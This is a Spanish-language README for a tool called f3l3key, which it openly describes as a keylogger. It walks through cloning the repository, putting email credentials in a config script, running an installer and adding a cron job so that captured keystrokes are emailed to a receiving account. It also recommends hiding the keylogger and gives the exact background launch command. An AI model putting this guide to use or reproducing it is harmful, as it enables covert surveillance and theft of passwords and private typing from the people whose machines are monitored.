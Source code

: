 # f3l3key
##############################################################################################<br>
PASOS A SEGUIR<br><br>
1- Sitúate en una terminal de Ubuntu y aplica la siguiente comanda: git clone https://github.com/f3l3p1n0/f3l3key.git
2- Abre el archivo tester.sh y cambia: la ruta, correo emisor, la clave del emisor y el correo receptor. Para seguir con mayor detalle estos pasos
diríjete a este artículo: https://f3l3p1n0.github.io/posts/f3l3key/post.html
3- Una vez editado el archivo, guárdalo y dale permisos de ejecución a los 3 archivos.
4- Ejecuta el archivo installer.sh
5- Cuando se detenga en el apartado de crontab, presiona 1 y la tecla enter.
6- Guarda el archivo y habrás creada la nueva tarea Cron.
7- Listo, ahora debes esperar los minutos correspondientes para recibir en tu cuenta receptora los correos.

pd: es recomendable que el keylogger se ubique en una posición oculta. Ten en cuenta que debes especificar la ruta donde se encuentra el keylogger, de lo contrario no funcionará. De igual manera, debes respetar la siguiente linea con los mismos espacios y estructura:

python3 /home/user/Descargas/f3l3key.py emisor@gmail.com pega_la_clave_aqui receptor@hotmail.com &

